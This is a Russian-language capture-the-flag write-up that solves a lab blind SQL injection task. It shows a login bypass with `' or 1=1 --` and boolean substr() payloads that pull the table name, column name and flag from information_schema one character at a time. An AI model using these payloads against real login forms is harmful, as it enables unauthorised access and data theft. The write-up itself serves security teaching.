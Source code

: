 # Практика 4 часть 3

Открываем веб-сайт: [blindsql.myctf.ru](blindsql.myctf.ru)

На этот раз фаззинг директорий нам ничего не принес. Пароль, полученный из исходников нам тоже не помог. Поэтому, попробуем выполнить sql инъекцию.

Попробуем инъекцию проверки пароля, введем в качестве логина — `admin`, а в качестве пароля `123' or 1=1 -- 123`. Данная атака позволяет выполнить свести логическую проверку пароля к проверке равенства `1=1`, которое всегда `True`, а следовательно выполнится. После чего остаток логики автора комментируется с помощью двойного тире. Выполнив атаку мы попадаем на страницу:

![image21](images/image21.jpg)

Видим что мы обошли авторизацию, но флаг не тут. Понимаем, что при истинном значении (`1=1`) мы обходим авторизацию, при ложном (`1=0`) нет. Используя эти знания пробуем достать данные из базы посимвольно.

![image22](images/image22.jpg)

Сначала имя таблицы:

```sql
login=admin' or substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='f' -- -&password=somenewpass
```

```sql
login=admin' or substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1)='l' -- -&password=somenewpass
```

(Получили таблицу flag)

Потом имя столбца:

```sql
login=admin' or substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1)='f' -- -&password=somenewpass
```

```sql
login=admin' or substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1)='l' -- -&password=somenewpass
```

(получили столбец flag)

И в конце достаем флаг:

```sql
login=admin' or substr((select flag from flag),1,1)='F' -- -&password=somenewpass
```

```sql
login=admin' or substr((select flag from flag),2,1)='l' -- -&password=somenewpass
```

Уязвимость в данном задании заключается в том, что мы можем делать любые запросы к базе данных, однако у нас нет возможности отобразить информацию на экране, поэтому мы используем некоторую логическую операцию: так например, если мы осуществляем успешный логин, с помощью конструкции `1=1`, а при `0=1` – логина нет, то нам ничего не мешает осуществить ту же самую операцию, сравнивая, например буквы — `f=f`, а раз мы можем сравнивать буквы, то можно попробовать сформировать одну из частей выражения запросом, а другую — подставлять руками. Таким образом, если, например, `1 буква имени таблицы = f`, то подставив в правую часть выражения `f`, мы успешно залогинимся. Если же мы не угадали, то можем перебирать правую часть выражения до тех пор, пока равенство не выполнится и не произойдет успешный логин. Вручную, конечно, это делать крайне трудозатратно, поэтому обычно такие процессы автоматизируют. Данная уязвимость, в зависимости от ограничений и прав пользователя из под которого происходит запрос, позволяет извлечь/записать любые данные из базы.
